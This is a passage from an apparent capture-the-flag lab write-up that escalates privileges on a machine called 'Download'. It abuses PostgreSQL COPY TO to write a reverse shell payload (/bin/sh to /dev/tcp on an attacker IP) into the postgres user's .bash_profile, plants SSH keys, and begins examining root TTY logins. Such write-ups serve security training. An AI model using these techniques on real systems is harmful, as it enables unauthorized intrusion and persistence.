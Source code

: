 ```bash
```

For interactive logins, the `.bash_profile`, `.profile`, and `.bashrc` files are executed to configure the environment. Since root logs in interactively as the postgres user, these files will execute within the postgres user's context. Therefore, I can execute commands as the postgres user, using the database attributes. Any commands added to these files will be executed when root logs in interactively.

```bash
download=> copy (select 'I am postgres' ) to '/tmp/postgres_exec_test';
COPY 1
download=> exit
(remote) wesley@download:/home/wesley$ cat /tmp/postgres_exec_test
I am postgres
```

Similarly, I can add a reverse shell payload to get a shell as the `postgres` user.

```bash
download=> copy (select '/bin/sh -i >& /dev/tcp/10.10.14.42/9005 0>&1' ) to '/var/lib/postgresql/.bash_profile';
COPY 1
```

I successfully got a shell as the `postgres` user. However, it appears that even an upgraded shell terminates quickly, likely due to the interactive login ending.

```bash
(remote) postgres@download:/var/lib/postgresql$ bash: [1993: 2 (255)] tcsetattr: Input/output error
                                                                                                   Hangup
```

To get a stable shell, I injected SSH keys into postgres' ssh directory. That said, I found nothing to escalate.

```bash
(remote) postgres@download:/var/lib/postgresql$ id
uid=113(postgres) gid=118(postgres) groups=118(postgres),117(ssl-cert)
(remote) postgres@download:/var/lib/postgresql$ find / -group ssl-cert 2>/dev/null
/etc/ssl/private
(remote) postgres@download:/var/lib/postgresql$ ls -la /etc/ssl/private
ls: cannot open directory '/etc/ssl/private': Permission denied
(remote) postgres@download:/var/lib/postgresql$ ls -ld /etc/ssl/private
drwx--x--- 2 root ssl-cert 4096 Jul 19 15:35 /etc/ssl/private
```

### Root TTY exploit

The last logons section from `linpeas.sh` is intriguing. It show root pty sessions from localhost, which is unusual.

```bash
╔══════════╣ Last logons
reboot   system boot  Tue Aug  1 11:25:10 2023 - Tue Aug  1 11:32:33 2023  (00:07)     0.0.0.0
root     pts/1        Tue Aug  1 11:24:41 2023 - down                      (00:00)     127.0.0.1
wesley   pts/0        Tue Aug  1 11:23:56 2023 - Tue Aug  1 11:24:58 2023  (00:01)     10.10.14.46
wesley   pts/0        Tue Aug  1 11:23:38 2023 - Tue Aug  1 11:23:52 2023  (00:00)     10.10.14.46
root     pts/1        Tue Aug  1 11:23:05 2023 - Tue Aug  1 11:23:40 2023  (00:00)     127.0.0.1
root     pts/1        Tue Aug  1 11:21:29 2023 - Tue Aug  1 11:22:04 2023  (00:00)     127.0.0.1
wesley   pts/0        Tue Aug  1 11:20:41 2023 - Tue Aug  1 11:23:31 2023  (00:02)     10.10.14.46
reboot   system boot  Tue Aug  1 11:20:09 2023 - Tue Aug  1 11:25:00 2023  (00:04)     0.0.0.0

╔══════════╣ Last time logon each user
Username         Port     From             Latest
root             pts/10   127.0.0.1        Fri Aug 11 15:29:15 +0000 2023
wesley           pts/13   10.10.14.106     Fri Aug 11 15:33:26 +0000 2023
```
